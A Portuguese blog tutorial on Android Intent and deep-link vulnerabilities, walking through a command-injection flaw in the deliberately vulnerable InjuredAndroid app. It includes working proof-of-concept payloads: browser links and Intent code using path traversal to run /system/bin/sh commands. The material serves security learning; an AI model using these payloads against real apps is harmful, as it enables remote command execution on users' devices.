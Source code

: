# Pequenas ligações, grandes vulnerabilidades: Uma breve introdução a deep links Android.
1625694993


## AndroidManifest.xml

Esse artigo tem como objetivo introduzir as vulnerabilidades que ocorrem no Android por meio do abuso de Intents. Tentarei ser o mais introdutório possível e listarei todas as referências necessárias, caso algum conceito pareça muito avançado. Será utilizado o aplicativo [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) como exemplo de *apk* vulnerável. 541v3 pros companheiros da [@duphouse](https://www.instagram.com/duphouse/), sem eles esse texto não seria possível.

Para mais conteúdos em português, recomendo a [série de vídeos](https://www.youtube.com/watch?v=4eso_7RyZ58) do Maycon Vitali sobre Android no geral, assim como [a minha talk](https://www.youtube.com/watch?v=WFUEbMFx2EQ) na DupCon com vulnerabilidades reais. Existe também o [@thatmobileproject](https://www.instagram.com/thatmobileproject/) para posts sobre segurança em mobile.

## intent://

Os [Intents](https://developer.android.com/guide/components/intents-filters) funcionam como a principal forma dos aplicativos se comunicarem internamente entre si. Por exemplo, se um aplicativo quer abrir o [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) ele pode iniciar-lo por meio de um Intent utilizando a [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) `flag13://rce`.

```java
Intent intent = new Intent();
intent.setData(Uri.parse("flag13://rce"));
startActivity(intent);
```

Além de aceitar todos os elementos de uma [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) ( scheme, host, path, query, fragment ), um Intent também pode levar dados [fortemente tipados](https://pt.wikipedia.org/wiki/Linguagem_tipada) por meio dos [Intent Extras](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Bundle)). Na prática, *queries* e *extras* são as formas mais comuns de passar dados entre os aplicativos, eles serão discutidos com exemplos mais adiante.


## < intent-filter >

Como o Android sabe a qual aplicativo se refere `flag13://rce`? O InjuredAndroid define um [Intent Filter](https://developer.android.com/guide/components/intents-filters#Resolution) que diz quais tipos de Intent o Sistema Operacional deve enviar para ele. O Intent Filter é definido no [AndroidManifest.xml](https://developer.android.com/guide/topics/manifest/manifest-intro).

Vamos analizar a definição do Intent Filter relacionado a `flag13://rce` : https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/AndroidManifest.xml

```xml
<activity
	android:name=".RCEActivity"
	android:label="@string/title_activity_rce"
	android:theme="@style/AppTheme.NoActionBar">
	<intent-filter android:label="filter_view_flag11">
		<action android:name="android.intent.action.VIEW" />
		<category android:name="android.intent.category.DEFAULT" />
		<category android:name="android.intent.category.BROWSABLE" />
		<!-- Accepts URIs that begin with "flag13://” -->
        <data
			android:host="rce"
			android:scheme="flag13" />
	</intent-filter>
</activity>
```

O atributo `name` define qual [Activity](https://developer.android.com/reference/android/app/Activity) será inicializada, como ele começa com ponto, o nome é resolvido para `package`+`.RCEActivity` = `b3nac.injuredandroid.RCEActivity`. Dentro do `<intent-filter>`, o `action` se refere ao [tipo de ação](https://developer.android.com/reference/android/content/Intent#intent-structure) que será executada, existem uma miríade de tipos de ações que são definidas na classe Intent, porém, na maioria das vezes é utilizado o `action` padrão `android.intent.action.VIEW`.

`category` são propriedades extras que definem como o Intent vai se comportar. `android.intent.category.DEFAULT` define que essa Activity pode ser inicializada mesmo se o Intent não tiver nenhum `category`. `android.intent.category.BROWSABLE` dita que a Activity pode ser inicializada pelo browser, isso é super importante pois transforma qualquer ataque em remoto. Digamos que um usuário entre em um site malicioso, esse site consegue inicializar um Intent que abre o App apenas se o Intent Filter tiver a propriedade `BROWSABLE`.

A *tag* [`data`](https://developer.android.com/guide/topics/manifest/data-element) especifica quais URLs vão corresponder com esse Intent Filter, no nosso caso, o `scheme` tem que ser `flag13` e o `host` igual a `rce`, ficando `flag13://rce`. Todas as partes da URI podem ser definidas, como *path*, *port*, etc. 


## flag13://rce

Agora que entedemos como Intents e Intents Filters funcionam, vamos procurar alguma vulnerabilidade no `flag13://rce` (O "rce" ficou meio óbvio né).

O código-fonte da Activity `b3nac.injuredandroid.RCEActivity` : https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/java/b3nac/injuredandroid/RCEActivity.kt

```kotlin
49 if (intent != null && intent.data != null) {
50     copyAssets()
51     val data = intent.data
52     try {
53         val intentParam = data!!.getQueryParameter("binary")
54         val binaryParam = data.getQueryParameter("param")
55         val combinedParam = data.getQueryParameter("combined")
56         if (combinedParam != null) {
57             childRef.addListenerForSingleValueEvent(object : ValueEventListener {
58                 override fun onDataChange(dataSnapshot: DataSnapshot) {
59                     val value = dataSnapshot.value as String?
60                     if (combinedParam == value) {
61                         FlagsOverview.flagThirteenButtonColor = true
62                         val secure = SecureSharedPrefs()
63                         secure.editBoolean(applicationContext, "flagThirteenButtonColor", true)
64                         correctFlag()
65                     } else {
66                         Toast.makeText(this@RCEActivity, "Try again! :D",
67                                 Toast.LENGTH_SHORT).show()
68                     }
69                 }
70
71                 override fun onCancelled(databaseError: DatabaseError) {
72                     Log.e(TAG, "onCancelled", databaseError.toException())
73                 }
74             })
75         }
```

A Activity é inicializada na função `onCreate` e é lá que o Intent será devidamente tratado. Na linha [49](https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/java/b3nac/injuredandroid/RCEActivity.kt#L49) o aplicativo checa se `intent` é nulo, se não for ele irá pegar algumas *queries* `binary`, `param` e `combined`. Se `combined` for nulo ele não entrará no `if` da linha 56 e irá para o seguinte `else`:

```kotlin
76 else {
77
78     val process = Runtime.getRuntime().exec(filesDir.parent + "/files/" + intentParam + " " + binaryParam)
79     val bufferedReader = BufferedReader(
80             InputStreamReader(process.inputStream))
81     val log = StringBuilder()
82     bufferedReader.forEachLine {
83         log.append(it)
84     }
85     process.waitFor()
86     val tv = findViewById<TextView>(R.id.RCEView)
87     tv.text = log.toString()
88 }
```

Na linha 78 é passado para a função [`Runtime.getRuntime().exec()`](https://developer.android.com/reference/java/lang/Runtime#exec(java.lang.String[])) as variáveis `intentParam` e `binaryParam`, essa função executa comandos no sistema, logo temos um [Command Injection](https://owasp.org/www-community/attacks/Command_Injection) através do Intent. Vamos tentar explora-lo!

Normalmente, num Command Injection tentaríamos passar algum carácter para executar outro commando, como `&`/`|`/`;`, porém se tentarmos desse jeito o Android irá dar um erro na primeira parte do comando, o `filesDir.parent + "/files/"`, pois não encontrará o arquivo, ou dará erro de permissão e não executará o resto do nosso *payload*. Para resolvermos esse problema podemos voltar os diretórios com `../` até chegarmos no diretório *root*, a partir dai podemos executar o `/system/bin/sh` e executar qualquer comando que quisermos.

Nossa PoC terá os seguintes passos :

1. Alvo clica num link malicioso
2. Browser abre um Intent para `b3nac.injuredandroid.RCEActivity`
3. A Activity `RCEActivity` executa o comando do atacante

`index.html`
```html
<a href="flag13://rce?binary=..%2F..%2F..%2F..%2F..%2Fsystem%2Fbin%2Fsh%20-c%20%27id%27&param=1">pwn me</a>
```

*Deixo de tarefa de casa exfiltrar o resultado do comando, ou abrir uma reverse shell no Android*

## S.Intent_Extras

Agora digamos que ao invés de receber as variáveis via *query*, o App as recebesse via Intent Extras, como fazer? Para criar um Intent com Extras apenas usamos a função [putExtra](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Parcelable)).

```java
Intent intent = new Intent();
intent.setData(Uri.parse("flag13://rce"));
intent.putExtra("binary","../../../../../system/bin/sh -c 'id'");
intent.putExtra("param","1");
startActivity(intent);
```

Ok, com isso conseguimos passar Intents Extras por meio de outro App, mas e pelo Browser? Nós podemos utilizar o scheme [`intent://`](https://developer.chrome.com/docs/multidevice/android/intents/) para isso! O Intent de cima fica assim :

```html
<a href="intent://rce/#Intent;scheme=flag13;S.binary=..%2F..%2F..%2F..%2F..%2Fsystem%2Fbin%2Fsh%20-c%20%27id%27;S.param=1;end">pwn me</a>
```

Primeiro vem o scheme `intent://`, depois o host `rce` e logo após a string `#Intent`, que é obrigatória. A partir dai todas as variáveis são delimitadas por `;`. Passamos o `scheme=flag13` e definimos os Extras. O nome do Extra é precedido do tipo dele, como o Extra `binary` é do tipo String ele é definido com `S.binary`. Os Extras podem ter vários tipos, como a documentação do scheme `intent://` é escarsa, o melhor jeito é ler o código fonte do Android que faz o *parse* dele:  https://cs.android.com/android/platform/superproject/+/master:frameworks/base/core/java/android/content/Intent.java;l=7115;drc=master

```java
if      (uri.startsWith("S.", i)) b.putString(key, value);
else if (uri.startsWith("B.", i)) b.putBoolean(key, Boolean.parseBoolean(value));
else if (uri.startsWith("b.", i)) b.putByte(key, Byte.parseByte(value));
else if (uri.startsWith("c.", i)) b.putChar(key, value.charAt(0));
else if (uri.startsWith("d.", i)) b.putDouble(key, Double.parseDouble(value));
else if (uri.startsWith("f.", i)) b.putFloat(key, Float.parseFloat(value));
else if (uri.startsWith("i.", i)) b.putInt(key, Integer.parseInt(value));
else if (uri.startsWith("l.", i)) b.putLong(key, Long.parseLong(value));
else if (uri.startsWith("s.", i)) b.putShort(key, Short.parseShort(value));
else throw new URISyntaxException(uri, "unknown EXTRA type", i);
```


Por fim só colocar um `end` (:


## ;end

Podem existir vários tipos de vulnerabilidades oriundas dos Intents, RCE/SQLi/XSS até Buffer Overflow, vai depender só da criatividade do desenvolvedor. Para estudar esse assunto mais a fundo, recomendo a leitura do blog do [@bagipro_](https://twitter.com/_bagipro) https://blog.oversecured.com/ e dos reports públicos de Bug Bounty https://github.com/B3nac/Android-Reports-and-Resources . Além do [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) também podem brincar com o [Ovaa](https://github.com/oversecured/ovaa). |-|4ck th3 |>l4n3t 

[@caioluders ](twitter.com/caioluders/)
